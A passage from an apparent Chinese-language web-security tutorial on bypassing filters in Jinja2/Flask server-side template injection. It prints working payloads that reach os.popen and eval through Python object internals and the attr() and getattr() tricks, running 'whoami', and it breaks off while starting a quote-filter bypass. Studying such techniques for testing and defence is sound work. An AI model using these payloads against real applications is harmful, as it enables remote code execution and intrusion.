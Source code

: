 以此，我们可以构造payload如下

```go
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}
```

- 使用`attr()`绕过

使用原生JinJa2的函数`attr()`，以下两行是等价的

```go
{{().__class__}}



{{()|attr('__class__')}}
```

以此，我们可以构造payload如下

```go
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```

- 使用`getattr()`绕过

这种方法有时候由于环境问题不一定可行，会报错`'getattr' is undefined`，所以优先使用以上两种

```go
Python 3.7.8



>>> ().__class__



<class 'tuple'>



>>> getattr((),"__class__")



<class 'tuple'>
```

#### 过滤引号

过滤了`'`和`"`

- `request`绕过

flask中存在着`request`内置对象可以得到请求的信息，`request`可以用5种不同的方式来请求信息，我们可以利用他来传递参数绕过
